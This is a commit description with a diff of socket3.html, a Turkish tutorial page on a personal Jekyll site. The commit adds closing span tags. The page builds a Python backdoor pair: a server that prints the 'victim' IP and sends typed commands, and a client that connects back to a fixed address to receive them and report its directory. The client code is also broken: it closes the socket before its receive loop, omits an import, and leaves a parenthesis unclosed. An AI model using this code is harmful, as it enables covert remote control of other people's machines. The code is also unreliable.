

Before and after one commit to emredurmaz4/cosmosofcyberspace.github.io, a Jekyll site: the page socket3.html, which Jekyll copies as it is, in a window 1280 px wide. Shown: the top 835 px of the page. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Update socket3.html

```diff
--- a/socket3.html
+++ b/socket3.html
@@ -21,46 +21,45 @@
 <span style="background:#008000">Gelen veriyi işlemek server.py</span>
 ################################
 
-<span style="background:#8600b3">import socket
-<span style="background:#8600b3">host=""
-<span style="background:#8600b3">port=15555
-<span style="background:#8600b3">s=socket.socket()
-</br>
-<span style="background:#8600b3">def bagla():
-<span style="background:#8600b3">    try:
-<span style="background:#8600b3">        s.bind((host,port))
-<span style="background:#8600b3">        s.listen()
-<span style="background:#8600b3">    except:
-<span style="background:#8600b3">        print("baglantı hatası")
-<span style="background:#8600b3">        bagla()
+<span style="background:#8600b3">import socket</span></br>
+<span style="background:#8600b3">host=""</span></br>
+<span style="background:#8600b3">port=15555</span></br>
+<span style="background:#8600b3">s=socket.socket()</span></br>
+</br></br>
+<span style="background:#8600b3">def bagla():</span></br>
+<span style="background:#8600b3">    try:</span></br>
+<span style="background:#8600b3">        s.bind((host,port))</span></br>
+<span style="background:#8600b3">        s.listen()</span></br>
+<span style="background:#8600b3">    except:</span></br>
+<span style="background:#8600b3">        print("baglantı hatası")</span></br>
+<span style="background:#8600b3">        bagla()</span></br>
+</br></br>
 
-
-<span style="background:#8600b3">def kabul_et():
-<span style="background:#8600b3">    print("Baglantı bekleniyor")
-<span style="background:#8600b3">    baglanti,adres=s.accept()
-<span style="background:#8600b3">    print("Bağlantı gerçekleşti kurban ip:",adres[0],"kurban port:",adres[1])
-<span style="background:#8600b3">    komut_yolla(baglanti)
-<span style="background:#8600b3">    baglanti.close() #serverdan "quit" girersen while döngüsü break olacak ve bu satıra gelecek,daha sonra baglanti kapanacak
+<span style="background:#8600b3">def kabul_et():</span></br>
+<span style="background:#8600b3">    print("Baglantı bekleniyor")</span></br>
+<span style="background:#8600b3">    baglanti,adres=s.accept()</span>
+<span style="background:#8600b3">    print("Bağlantı gerçekleşti kurban ip:",adres[0],"kurban port:",adres[1])</span>
+<span style="background:#8600b3">    komut_yolla(baglanti)</span>
+<span style="background:#8600b3">    baglanti.close()</span> #serverdan "quit" girersen while döngüsü break olacak ve bu satıra gelecek,daha sonra baglanti kapanacak
 
 #serverdan cliente veri(komut) yollamak için sonsuz döngülü bi blok yaratalım
-<span style="background:#8600b3">def komut_yolla(baglanti):
-<span style="background:#8600b3">    while True:
-<span style="background:#8600b3">        cmd=input("What is your code")
-<span style="background:#8600b3">        if cmd=="quit":  # eğer quit girmişsem döngüyü sonlandır
-<span style="background:#8600b3">            break #eğer serverdan "quit" girersen komut_yolla() fonksiyonundan çıkması için break kullanıldı
+<span style="background:#8600b3">def komut_yolla(baglanti):</span>
+<span style="background:#8600b3">    while True:</span>
+<span style="background:#8600b3">        cmd=input("What is your code")</span>
+<span style="background:#8600b3">        if cmd=="quit":  # eğer quit girmişsem döngüyü sonlandır</span>
+<span style="background:#8600b3">            break</span> #eğer serverdan "quit" girersen komut_yolla() fonksiyonundan çıkması için break kullanıldı
 
-<span style="background:#8600b3">        if len(cmd)>0:
+<span style="background:#8600b3">        if len(cmd)>0:</span>
             #serverdan girdiğim veriyi cliente yollayacağım
             #cmd girdisini stringden alıp byte a dönüştürmem gerekiyor
             #yani biz soket üzerinde veri alıp yollarken bunu bytelar üzerinden yapıyoruz
             #serverdan cliente veriyi yollarken "baglati" değişkeni üzerinden yollarız
             #Cünkü "baglanti" benim client ile ilişkimi temsil ediyor
-<span style="background:#8600b3">            baglanti.send(cmd.encode("utf-8"))
-<span style="background:#8600b3">            cevap=baglanti.recv(4096).decode("utf-8")
-<span style="background:#8600b3">            print(cevap)
-<span style="background:#8600b3">bagla()
-<span style="background:#8600b3">kabul_et()
-
+<span style="background:#8600b3">            baglanti.send(cmd.encode("utf-8"))</span>
+<span style="background:#8600b3">            cevap=baglanti.recv(4096).decode("utf-8")</span>
+<span style="background:#8600b3">            print(cevap)</span>
+<span style="background:#8600b3">bagla()</span>
+<span style="background:#8600b3">kabul_et()</span>
 
 
 ##########################################################################################################################################################
@@ -83,29 +82,29 @@
 #Gelen veriyi işlemek client.py#
 ################################
 
-<span style="background:#8600b3">import socket
-<span style="background:#8600b3">s=socket.socket()
-<span style="background:#8600b3">s.connect(("192.168.1.31",20000))
-<span style="background:#8600b3">s.close()
+<span style="background:#8600b3">import socket</span>
+<span style="background:#8600b3">s=socket.socket()</span>
+<span style="background:#8600b3">s.connect(("192.168.1.31",20000))</span>
+<span style="background:#8600b3">s.close()</span>
 #Ben  buraya sonsuz bir döngü açıyorum ve karşı taraftan sürekli veri bekliyorum
 #1024 olarak buffersizeımı açtım,1024 tek seferde okuyabileceğim byte sayısı
-<span style="background:#8600b3">while True:
-<span style="background:#8600b3">    veri=s.recv(1024)
-<span style="background:#8600b3">    if veri[:2].decode("utf-8")=="cd":
+<span style="background:#8600b3">while True:</span>
+<span style="background:#8600b3">    veri=s.recv(1024)</span>
+<span style="background:#8600b3">    if veri[:2].decode("utf-8")=="cd":</span>
         #eğer gelen verinin ilk 2 karakteri cd ise
-<span style="background:#8600b3">        try:
+<span style="background:#8600b3">        try:</span>
             #bu cd durumunu kontrol etmek için try blogu açtım
-<span style="background:#8600b3">            os.chdir(veri[3:].decode("utf-8"))
+<span style="background:#8600b3">            os.chdir(veri[3:].decode("utf-8"))</span>
             #chdir fonksiyonuna gitmek istediğin dizini ver
             #3.karakterden itibaren al ve stringe çevir
 
             #dizin değiştiği zaman o an ki dizini servera yolla
-<span style="background:#8600b3">            s.send(os.getcwd().encode("utf-8")
+<span style="background:#8600b3">            s.send(os.getcwd().encode("utf-8")</span>
             #getcwd() fonksiyonu string döner onu encode("utf-8") ile byte dönüştürüp servera yollayalım
 
-<span style="background:#8600b3">        except FileNotFoundError:
+<span style="background:#8600b3">        except FileNotFoundError:</span>
             #Böyle bir hata alırsak servera şu mesajı ilet
-<span style="background:#8600b3">            s.send("Dosya bulunamadı...".encode("utf-8"))
+<span style="background:#8600b3">            s.send("Dosya bulunamadı...".encode("utf-8"))</span>
 
 
 
```
